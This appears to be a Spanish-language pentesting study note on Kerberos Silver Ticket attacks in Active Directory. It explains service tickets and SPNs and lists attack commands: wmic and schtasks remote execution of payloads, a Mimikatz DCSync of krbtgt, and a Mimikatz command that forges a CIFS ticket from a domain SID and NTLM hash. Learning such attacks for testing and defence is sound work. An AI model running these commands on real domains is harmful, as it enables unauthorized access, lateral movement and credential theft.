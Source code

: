 # Silver Ticket 

Tags: #AD #Windows #Persistencia #SilverTicket

Un **Silver Ticket** puede ser generado por un atacante que haya obtenido credenciales específicas dentro de un dominio, particularmente el **hash NTLM** de la contraseña de una cuenta de servicio o de la cuenta de computadora asociada a un servicio específico. Utilizando este hash, el atacante puede crear un **Ticket de Servicio Kerberos (TGS)**, que será reconocido como válido para el servicio al que corresponde el hash comprometido, permitiéndole acceso sin necesidad de interactuar con el controlador de dominio.

```bash 
El proceso de autenticación de Kerberos en Active Directory implica dos tipos principales de tickets: el Ticket Granting Ticket (TGT) y el Ticket Granting Service (TGS). El TGT se utiliza para solicitar TGSs para servicios específicos. En un ataque de Silver Ticket, un atacante utiliza un TGS falsificado para acceder a un servicio específico sin la necesidad de autenticarse a través del Controlador de Dominio (DC).

¿Qué puede hacer un atacante con un Silver Ticket? A diferencia del Golden Ticket, que brinda acceso a cualquier servicio dentro del dominio, el Silver Ticket se limita al servicio para el cual fue generado. Por ejemplo, si un atacante tiene el hash de la cuenta de un servidor de archivos, puede emitir un Silver Ticket para autenticarse contra ese servidor de archivos específico y tener los mismos derechos que la cuenta de servicio comprometida.


Riesgos del Silver Ticket: Los riesgos asociados con los Silver Tickets incluyen pero no se limitan a:
- Acceso no autorizado a servicios específicos como servidores de archivos, servidores de bases de datos, o cualquier otro servicio que use Kerberos para la autenticación.
- Posibilidad de moverse lateralmente dentro de la red utilizando los permisos del servicio comprometido.
- Dificultad para detectar el ataque, ya que no requiere la interacción con el Controlador de Dominio para validar el ticket después de su creación.
```

## Service Principal Name (SPN)

Un **Service Principal Name (SPN)** es un identificador único asignado a cada instancia de servicio que opera en un servidor y emplea el protocolo de autenticación Kerberos. En entornos de **Active Directory (AD)**, los SPN permiten que los clientes asocien un servicio específico con una cuenta de inicio de sesión, facilitando así la autenticación segura de los servicios de red y garantizando que las solicitudes se dirijan al servicio correcto.

```bash 
1. HTTP: Se utiliza para servicios web o aplicaciones que funcionan sobre HTTP/S. Es importante para la autenticación en aplicaciones web y servicios que utilizan Kerberos para la autenticación integrada de Windows.
2. MSSQLSvc: Utilizado por las instancias de Microsoft SQL Server. Este es crítico para la autenticación y las conexiones seguras a bases de datos SQL.
3. WSMAN: Utilizado para la administración basada en estándares de hardware y sistemas operativos (Windows Remote Management).
4. TERMSRV: Utilizado por los servicios de Terminal Server (Remote Desktop Services). Es vital para la autenticación en sesiones de escritorio remoto.
5. CIFS: Utilizado para el sistema de archivos de Internet común, relacionado con el intercambio de archivos y los servicios de impresión.
6. HOST: Un SPN genérico que representa cualquier servicio predeterminado en un sistema operativo Windows.
7. SMTPSvc: Para el servicio de transporte de correo simple, utilizado en la autenticación de servidores de correo electrónico.
```


| Tipo de servicio                           | Service Silver Tickets | Comando relacionado al ataque                                                                                  |
| ------------------------------------------ | ---------------------- | -------------------------------------------------------------------------------------------------------------- |
| WMI                                        | HOST + RPCSS           | wmic.exe /authority:"kerberos:DOMAIN\DC01" /node:"DC01" process call create "cmd /c evil.exe"                  |
| PowerShell Remoting                        | CIFS + HTTP + (wsman?) | New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC                                          |
| WinRM                                      | HTTP + wsman           | New-PSSESSION -NAME PSC -ComputerName DC01; Enter-PSSession -Name PSC                                          |
| Scheduled Tasks                            | HOST                   | schtasks /create /s dc01 /SC WEEKLY /RU "NT Authority\System" /IN "SCOM Agent Health Check" /IR "C:/shell.ps1" |
| Windows File Share (CIFS)                  | CIFS                   | dir \\dc01\c$                                                                                                  |
| LDAP operations including Mimikatz DCSync  | LDAP                   | lsadump::dcsync /dc:dc01 /domain:domain.local /user:krbtgt                                                     |
| Windows Remote Server Administration Tools | RPCSS + LDAP + CIFS    | /                                                                                                              |

## Silver Ticket para CIFS

```bash 
# Vamos a generar un silver ticket para el servicio de CIFS y para ello es necesario tener:
- SID del dominio
- HASH NTLM DE USER-SERVER
```

```powershell
# Verificar si tenemos visibilidad de los recursos 
❯ dir \\USER-SERVER.domain1.corp\c$   
❯ hostname
❯ whoami
❯ ipconfig

❯ nltest /domain_trusts /v       # Se puede ver las relaciones de confianza entre los dominios y sus SID.
```

```powershell
❯ mimikatz.exe     # Los tickets solicitados se guradan en 'cache'
	# kerberos::golden /user:Administrator /domain:domain1.corp /sid:S-1-5-21-1861162130-2580302541-221646211 /target:USER-SERVER.domain1.corp /rc4:dadef894e564c991a5a5714e0a7efc67 /service:CIFS /ptt 
	# exit 

Notas: 
	# sid = Es el ID del dominio 'domain1.corp'


❯ klist    # Mirar los tickets 

❯ dir \\USER-SERVER.domain1.corp\c$   # Mirar los recursos compartidos 
```